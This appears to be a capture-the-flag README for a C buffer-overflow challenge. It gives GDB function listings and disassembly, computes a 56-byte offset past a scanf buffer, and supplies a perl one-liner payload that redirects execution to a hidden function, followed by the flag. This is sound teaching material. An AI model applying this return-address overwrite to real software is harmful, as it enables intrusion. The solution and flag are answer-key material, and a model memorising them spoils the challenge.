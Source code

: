 lcd # Challenge Name

## Exploded

Here's a program that I made. Seems like it works the way I want it to.

`nc <hostname> <port>`

*Creator - Noans*

## Setup Guide
1. Run `build.sh` in the service folder.

## Distribution
- stolen
    - SHA1: `6c79423c4ee2c70c07fa2ad3eb102e1d1986a5cc`
    - Compiled C binary

## Solution
The program, written in C, is vulnerable to the buffer overflow exploit.

Using GDB, disassembling the main method will give the follow output will tell us that a method called `doStuff` is run. Upon disassembling the `doStuff` method, we will see that is simply a method that prints some text and uses `scanf()` to attain user input.

Knowing this, we can thus attempt to exploit `scanf()` since it is vulnerable to buffer overflow exploits.

Using `info functions` in GDB, we can list all the functions as shown below:
```
(gdb) info functions
Non-debugging symbols:
0x00005555555546d8  _init
0x0000555555554700  setbuf@plt
0x0000555555554710  printf@plt
0x0000555555554720  srand@plt
0x0000555555554730  time@plt
0x0000555555554740  setvbuf@plt
0x0000555555554750  __isoc99_scanf@plt
0x0000555555554760  rand@plt
0x0000555555554770  __cxa_finalize@plt
0x0000555555554780  _start
0x00005555555547b0  deregister_tm_clones
0x00005555555547f0  register_tm_clones
0x0000555555554840  __do_global_dtors_aux
0x0000555555554880  frame_dummy
0x000055555555488a  main
0x00005555555548ed  doStuff
0x0000555555554947  interestingFunction
0x000055555555495f  randomOutput
0x00005555555549d0  __libc_csu_init
0x0000555555554a40  __libc_csu_fini
0x0000555555554a44  _fini
```

The output shows us a function called `interestingFunction` that is neither used in the main method or in `doStuff`.

Recalling the previously disassembled `doStuff` method, in the disassembly, we will see a line `0x0000555555554906 <+25>:	lea    -0x30(%rbp),%rax`. This line tells us that the variable used in the scanf method was allocated a space of 48 bytes in the stack. This thus allows us to build our exploit string.

Taking into account that the rbp is 8 bytes, we would need to write a total of 56 bytes before we can override the return address to run the interestingFunction.

Disassembling the `interestingFunction` method, we will see the following output:
```
Dump of assembler code for function interestingFunction:
   0x0000555555554947 <+0>:	push   %rbp
   0x0000555555554948 <+1>:	mov    %rsp,%rbp
   0x000055555555494b <+4>:	lea    0x118(%rip),%rdi        # 0x555555554a6a
   0x0000555555554952 <+11>:	mov    $0x0,%eax
   0x0000555555554957 <+16>:	callq  0x555555554710 <printf@plt>
   0x000055555555495c <+21>:	nop
   0x000055555555495d <+22>:	pop    %rbp
   0x000055555555495e <+23>:	retq
End of assembler dump.
```

Thus, our exploit string can be generated with the follow command, account for the 56 bytes we need to write and the address of `interestingFunction` after the first line.

`perl -e 'print "a"x56 . "\x48\x49\x55\x55\x55\x55\x00\x00"'`

This gives us the string `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaHIUUUU`.

With the string generated from the above, we can run `nc <hostname> <port>` and enter the string as input to get the flag.

### Flag
`GCTF{0V3R_7H3_L1M17}`

